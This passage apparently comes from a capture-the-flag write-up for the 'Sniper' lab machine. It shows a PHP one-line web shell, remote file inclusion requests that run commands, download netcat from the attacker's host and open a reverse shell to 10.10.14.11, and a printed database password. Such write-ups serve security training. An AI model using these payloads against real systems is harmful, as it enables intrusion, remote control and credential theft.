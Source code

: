 ```php
<?php
system($_GET["cmd"]);
?>
```

And with the following request I can execute commands: `GET /blog/?lang=//10.10.14.11/test/nc.php&cmd=whoami`

![](/assets/images/htb-writeup-sniper/rce1.png)

To get a shell I'll upload netcat to the server with `GET /blog/?lang=//10.10.14.11/test/nc.php&cmd=copy+\\10.10.14.11\test\nc.exe+c:\programdata\nc.exe`

![](/assets/images/htb-writeup-sniper/rce2.png)

Then I execute netcat to get a shell with `GET /blog/?lang=//10.10.14.11/test/nc.php&cmd=c:\programdata\nc.exe+-e+cmd.exe+10.10.14.11+80`

![](/assets/images/htb-writeup-sniper/shell.png)

## Enumeration of the machine

The first thing I check is the `C:\inetpub\wwwroot\user\db.php` file used by the login portal so I can see which credentials are used to connect to the database:

```php
<?php
// Enter your Host, username, password, database below.
// I left password empty because i do not set password on localhost.
$con = mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");
// Check connection
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }
?>
```
